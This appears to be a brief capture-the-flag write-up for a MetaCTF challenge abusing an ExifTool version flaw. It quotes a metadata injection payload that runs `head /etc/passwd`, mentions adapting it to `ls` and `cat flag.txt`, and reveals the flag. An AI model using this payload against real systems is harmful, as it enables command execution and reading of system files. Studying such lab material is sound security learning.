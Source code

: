 <img width="891" height="838" alt="image" src="https://github.com/user-attachments/assets/61e35f3e-56d4-4772-a6dc-857ebaa5e9b4" />

Then i try read the code how this payload work, and found something `(metadata "\c${system('head /etc/passwd')};")`

So by knowing the code, we can use it like `ls` without `head` on first place. like this:

<img width="513" height="38" alt="image" src="https://github.com/user-attachments/assets/2d10e15f-e2db-4154-8b53-4500e97cd4c7" />

The result:

<img width="890" height="613" alt="image" src="https://github.com/user-attachments/assets/6fda3f87-0fd2-4f07-b560-c1f42340b8d0" />

One step final. use command: `cat flag.txt` and here the result:

<img width="903" height="554" alt="image" src="https://github.com/user-attachments/assets/20b7d137-7cfc-4eaf-8849-5e1a5af42dd6" />

```
Flag: MetaCTF{exif_to0l_versi0n_c4n_kill_you}
```
